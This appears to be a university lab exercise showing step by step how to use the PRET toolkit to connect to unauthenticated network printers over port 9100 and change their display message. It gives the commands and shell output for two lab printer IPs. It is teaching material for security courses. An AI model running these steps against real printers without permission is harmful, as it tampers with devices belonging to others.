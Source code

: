 ## Printer Hacking

### Requirement

In this exercise, we will change the display message on a printer. The only reason this attack works is because there is a lack of authentication in most printers.

### Background

Why printer hacking: read this article first:
https://www.theverge.com/2018/11/30/18119576/pewdiepie-printer-hack-t-series-youtube

### Setup

One VM only.

### Steps

Pret stands for PRinter Exploitation Toolkit.

1. get the source code from github:

```console
git clone https://github.com/RUB-NDS/PRET
```

2. go inside the PRET directory:

```console
cd PRET
```

3. install necessary modules:

```console
sudo pip install colorama pysnmp
```

4. select a targeted printer (IP: either 10.29.2.31, or 10.29.2.45), test if the printer has port 9100 open: 

```console
telnet printerIP 9100 (You will see "Connection refused" if not open)
```

5. now that you are in the PRET directory, run the script to establish a connection between you and the printer:

```console
[05/18/22]seed@VM:~/PRET$ ./pret.py 10.29.2.31 pjl
      ________________                                             
    _/_______________/|                                            
   /___________/___//||   PRET | Printer Exploitation Toolkit v0.40
  |===        |----| ||    by Jens Mueller <jens.a.mueller@rub.de> 
  |           |   ô| ||                                            
  |___________|   ô| ||                                            
  | ||/.´---.||    | ||      「 pentesting tool that made          
  |-||/_____\||-.  | |´         dumpster diving obsolete‥ 」       
  |_||=L==H==||_|__|/                                              
                                                                   
     (ASCII art by                                                 
     Jan Foerster)                                                 
                                                                   
Connection to 10.29.2.31 established
Device:   HP LaserJet M606

Welcome to the pret shell. Type help or ? to list commands.
10.29.2.31:/> 
```

or the other printer:

```console
[05/18/22]seed@VM:~/PRET$ ./pret.py 10.29.2.45 pjl
      ________________                                             
    _/_______________/|                                            
   /___________/___//||   PRET | Printer Exploitation Toolkit v0.40
  |===        |----| ||    by Jens Mueller <jens.a.mueller@rub.de> 
  |           |   ô| ||                                            
  |___________|   ô| ||                                            
  | ||/.´---.||    | ||      「 pentesting tool that made          
  |-||/_____\||-.  | |´         dumpster diving obsolete‥ 」       
  |_||=L==H==||_|__|/                                              
                                                                   
     (ASCII art by                                                 
     Jan Foerster)                                                 
                                                                   
Connection to 10.29.2.45 established
Device:   Receiving data failed (watchdog timeout)
                        
Welcome to the pret shell. Type help or ? to list commands.
10.29.2.45:/> 
```

6. change the display message: 

```console
10.29.2.31:/> display Game Over
Setting printer's display message to "Game Over"
```

```console
10.29.2.45:/> display Game Over
Setting printer's display message to "Game Over"
```

This will change the printer display message to "Game Over...".

7. you can then type quit to exit:

```console
10.29.2.31:/> quit
```

or

```console
10.29.2.45:/> quit
```
